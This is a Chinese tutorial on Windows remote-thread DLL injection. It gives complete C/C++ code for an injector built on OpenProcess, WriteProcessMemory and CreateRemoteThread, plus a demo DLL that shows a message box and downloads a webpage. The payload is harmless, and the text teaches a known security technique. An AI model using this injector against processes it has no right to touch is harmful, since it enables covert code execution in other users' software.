


# 1、什么是注入？
所谓注入就是在第三方进程不知道或者不允许的情况下将模块或者代码写入对方进程空间，并设法执行的技术。
在安全领域，“注入” 是非常重要的一一种技术手段，注入与反注入也一直处于不断变化的，而且也愈来愈激烈的对抗当中。
己知的注入方式:
远程线程注入、APC 注入、消息钩子注入、注册表注入、导入表注入、输入法注入等等。
# 2、远程线程注入的实现
# 楔子
利用 CreateRemoteThread 函数我们能创建一个远程线程，并且在这个远程线程中运行一个满足 ThreadProc 格式的线程函数。
//ThreadProc 函数格式 | |
DWORD WINAPI ThreadProc( | |
__in LPVOID lpParameter | |
); |
这个远程线程函数的格式是有局限的，有 4 个字节类型的返回值、一个参数。且必须在被创建远程线程的程序进程中，还要知道这个函数在这个程序进程中的地址。
这就引出了我们的关键函数 LoadLibary
HMODULE WINAPI LoadLibrary( | |
__in LPCTSTR lpFileName | |
); |
看下这张图立马就明白了

既让远程线程执行 LoadLibrary 函数去加载一个 dll（模块）。
这也就是所谓的 DLL 注入。
还有一个很重要的问题，我们知道不同进程中，地址空间是隔离的，那么我在注入的进程中传入 LoadLibrary 函数的地址，这算是一个硬编码的地址，它在目标进程中是否是一样的呢？答案是，二者的地址是一样的，这是由于 kernel32.dll 在 32 位程序中加载的基地址是一样的，而 LoadLibrary 在 kernel32.dll 中的偏移是一定的（只要不同的进程加载的是同一份 kernel32.dll）那么不同进程中的 LoadLibrary 函数的地址是一样的。其实不光是 LoadLibrary 函数，只要是 kernel32.dll 中导出的函数，在不同进程中的地址都是一样的。注意这里只是 32 位，如果想要使用 32 位程序往 64 位目标程序中注入，可能需要考虑地址转换的问题，只要知道 kernel32.dll 在 64 位中的偏移，就可以计算出对应函数的地址了。
# DLL 注入
这是网上收集的一些概念。
- dll 注入是指向运行中的其它进程强制插入特定的 dll 文件。从技术细节来说，DLL 注入命令其他进程自行调用 LoadLibrary () API，加载用户指定的 dll 文件。
- 当 dll 被加载到进程中以后，就拥有了访问进程内存的权限。(用户可以通过这个来修复程序 bug 或增加功能等)。
- dll 被加载到进程后会自动运行 DllMain 函数。
- 使用 LoadLibrary () API 加载某个 DLL 时，该 DLL 中的 DllMain 函数就会被自动执行。DLL 注入的工作原理就是从外部促使目标进程调用 LoadLibrary () API，所以会强制掉用执行 DLL 的 DllMain () 函数。
# 实例
# 将会使用到的函数
# GetModuleFileName
获取当前进程已加载模块的文件的完整路径，该模块必须由当前进程加载。
如果想要获取另一个已加载模块的文件路径，可以使用 GetModuleFileNameEx 函数。
函数原型：
DWORD WINAPI GetModuleFileName( | |
_In_opt_ HMODULE hModule, | |
_Out_ LPTSTR lpFilename, | |
_In_ DWORD nSize | |
); |
- hModule： 一个模块的句柄。可以是一个 DLL 模块，或者是一个应用程序的实例句柄。如果该参数为 NULL，该函数返回该应用程序全路径。
- lpFileName: 指定一个字符串缓冲区，要在其中容纳文件的用 NULL 字符中止的路径名，hModule 模块就是从这个文件装载进来的。
- nSize： 装载到缓冲区 lpFileName 的最大字符数。
返回值：
如果返回为成功，将在 lpFileName 的缓冲区当中返回相应模块的路径，如果所设的 nSize 过小，那么返回仅按所设置缓冲区大小返回相应字符串内容。如果函数失败，返回值将为 0，利用 GetLastError 可获得异常代码。
# _tcsrchr
函数功能 ：查找一个字符串中最后一次出现的指定字符。
函数原型 ：
char *strrchr( const char *string, int c);
char *wcsrchr( const wchar_t *string, int c );
参数说明 ：
第一个参数：字符串
第二个参数：需要查找的字符
功能 ：查找一个字符串中最后出现的指定字符。
返回值 ：找出字符串中最后一个出现查找字符的地址，然后将该字符出现的地址返回。
(注：_tcsrchr 支持 ANSI 和 UNICODE，ANSI 使用 strrchr，UNICODE 使用 wcsrchr。)
# _tcscpy_s
字符拷贝函数，使用的如果是 UNICODE 编码，则采用 wcscpy_s () 函数，如果是多字节编码，则采用 strcpy_s () 函数。
功能：字符串拷贝
后缀_s 表示使用安全的字符串拷贝函数，防止缓冲区不够大而引起错误。
# URLDownloadToFile
URLDownloadToFile，指从指定 URL 地址读取内容并将读取到的内容保存到特定的文件里的实现方法。
函数原型：
HRESULT URLDownloadToFile( | |
LPUNKNOWN pCaller, | |
LPCTSTR szURL, | |
LPCTSTR szFileName, | |
DWORD dwReserved, | |
LPBINDSTATUSCALLBACK lpfnCB | |
); |
参数
- pCaller
指向调用 ActiveX 组件的控制 IUnknown 接口的指针，如果调用者是 ActiveX 组件。如果调用应用程序不是 ActiveX 组件，则可以将此值设置为 NULL 。否则，调用方是包含在另一个组件中的 COM 对象，例如 HTML 页面上下文中的 ActiveX 控件。此参数表示调用组件的最外层 IUnknown。该函数在 ActiveX 客户端框架的上下文中尝试下载，并允许调用者容器接收有关下载进度的回调。 - szURL
指向包含要下载的 URL 的字符串值的指针。不能设置为 NULL 。如果 URL 无效，则返回 INET_E_DOWNLOAD_FAILURE。 - szFileName
指向包含要为下载创建的文件的名称或完整路径的字符串值的指针。如果 szFileName 包含路径，则目标目录必须已经存在。 - dwReserved
保留。必须设置为 0。 - lpfnCB
指向调用者 IBindStatusCallback 接口的指针。通过使用 IBindStatusCallback::OnProgress，调用者可以接收下载状态。URLDownloadToFile 在接收到数据时调用 IBindStatusCallback::OnProgress 和 IBindStatusCallback::OnDataAvailable 方法。下载操作可以通过从任何回调返回 E_ABORT 来取消。如果不需要状态，可以将此参数设置为 NULL 。
返回值
此函数可以返回这些值之一。
| 返回码 | 描述 |
|---|---|
| S_OK | 下载成功开始。 |
| E_OUTOFMEMORY | 缓冲区长度无效，或内存不足，无法完成操作。 |
| INET_E_DOWNLOAD_FAILURE | 指定的资源或回调接口无效。 |
# 程序
DLL 文件，环境是 VS2019。
只是简单的弹个窗，在并把百度首页保存到 dll 所在目录。
//dllmain.cpp : 定义 DLL 应用程序的入口点。 | |
#include "pch.h" | |
#include<urlmon.h> | |
#include<tchar.h> | |
#pragma comment(lib, "urlmon.lib") | |
#define DEF_FILE_NAME (L"DllInject.html") //define 我们保存的网页的文件名 | |
// 自动下载到 dll 所在的目录下 | |
DWORD WINAPI ThreadProc(LPVOID lpParameter) { | |
HMODULE g_hMod = NULL; | |
TCHAR szPath[_MAX_PATH] = { 0, }; // 定义一个数组来储存路径 | |
GetModuleFileName(g_hMod, szPath, MAX_PATH);// 获取当前模块的路径 | |
TCHAR* p = _tcsrchr(szPath, '\\'); // 在 szPath 储存的路径中从右到左寻找字符 \\ 并返回字符串指针 | |
_tcscpy_s(p + 1, _MAX_PATH, DEF_FILE_NAME); // 生成文件保存的路径，将 DllInject.html 保存在 szPath 路径最后的 '\' 字符之后 | |
URLDownloadToFile(NULL, L"https://www.baidu.com", szPath, 0, NULL); // 下载文件保存到 szPath 所描述的文件中 | |
return 0; | |
} | |
BOOL APIENTRY DllMain( HMODULE hModule, | |
DWORD ul_reason_for_call, | |
LPVOID lpReserved | |
) | |
{ | |
switch (ul_reason_for_call) | |
{ | |
case DLL_PROCESS_ATTACH: { | |
HANDLE hTread = CreateThread(NULL, 0, ThreadProc, NULL, 0, NULL); | |
if (hTread==NULL) | |
{ | |
MessageBox(NULL, L"CreateThread Error!!", L"Or0kit", NULL); | |
} | |
MessageBox(NULL, L"Inject Success!!", L"Or0kit", NULL); | |
CloseHandle(hTread); | |
break; | |
} | |
case DLL_THREAD_ATTACH: | |
case DLL_THREAD_DETACH: | |
case DLL_PROCESS_DETACH: | |
break; | |
} | |
return TRUE; | |
} |
主程序
#include<Windows.h> | |
#include<stdio.h> | |
#include<TlHelp32.h> | |
#include<assert.h> | |
#include<tchar.h> | |
#define DllPath L"F:\\000Users\\Desktop\\Dll2021-7-19.dll" | |
// 获取进程 name 的 ID | |
DWORD getPid(LPTSTR name) | |
{ | |
HANDLE hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);// 获取进程快照句柄 | |
assert(hProcSnap != INVALID_HANDLE_VALUE); | |
PROCESSENTRY32 pe32; | |
pe32.dwSize = sizeof(PROCESSENTRY32); | |
BOOL flag = Process32First(hProcSnap, &pe32);// 获取列表的第一个进程 | |
while (flag) | |
{ | |
if (!_tcscmp(pe32.szExeFile, name)) | |
{ | |
CloseHandle(hProcSnap); | |
return pe32.th32ProcessID;//pid | |
} | |
flag = Process32Next(hProcSnap, &pe32);// 获取下一个进程 | |
} | |
CloseHandle(hProcSnap); | |
return 0; | |
} | |
// 远程线程注入 | |
bool RemoteThreadInject(LPTSTR ProcName) | |
{ | |
DWORD dwPid = getPid(ProcName); | |
//1. 使用 PID 打开进程获取权限 | |
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, NULL, dwPid); | |
//2. 申请内存，写入 DLL 路径 | |
int nLen = sizeof(WCHAR) * (wcslen(DllPath) + 1); | |
LPVOID pBuf = VirtualAllocEx(hProcess, NULL, nLen, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE); | |
if (!pBuf) | |
{ | |
printf("申请内存失败！\n"); | |
return false; | |
} | |
//3. 写入内存 | |
DWORD dwWrite = 0; | |
if (!WriteProcessMemory(hProcess, pBuf, DllPath, nLen, &dwWrite)) | |
{ | |
printf("写入内存失败！\n"); | |
return false; | |
} | |
//4. 创建远程线程，让对方调用 LoadLibrary | |
HANDLE hRemoteThread = CreateRemoteThread( | |
hProcess, | |
NULL, | |
NULL, | |
(LPTHREAD_START_ROUTINE)LoadLibrary, | |
pBuf, | |
0, | |
0); | |
//5. 等待线程结束返回，释放资源 | |
WaitForSingleObject(hRemoteThread, -1); | |
CloseHandle(hRemoteThread); | |
VirtualFreeEx(hProcess, pBuf, 0, MEM_FREE); | |
return true; | |
} | |
int main() { | |
RemoteThreadInject((LPTSTR)TEXT("Win2021-7-19.exe")); | |
return 0； | |
} |
首先这是我们没注入前的桌面
运行我们的受害者

运行我们的注入程序
结果
不过我这里出了点问题，不过程序还是跑起来了……
等有时间了再调试吧。
# Reference
https://bbs.pediy.com/thread-266901.htm
https://blog.csdn.net/whatday/article/details/8975930